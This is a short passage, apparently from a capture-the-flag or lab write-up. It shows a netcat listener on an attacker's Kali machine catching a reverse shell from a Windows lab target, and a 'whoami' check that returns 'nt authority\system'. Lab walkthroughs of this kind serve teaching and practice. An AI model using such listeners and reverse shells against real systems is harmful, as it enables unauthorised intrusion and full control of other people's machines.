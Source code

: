 And we catch a callback for a SYSTEM shell:

```

root@kali# nc -lnvp 8085
listening on [any] 8085 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.82] 49181

PS C:\Windows\system32> whoami
nt authority\system

```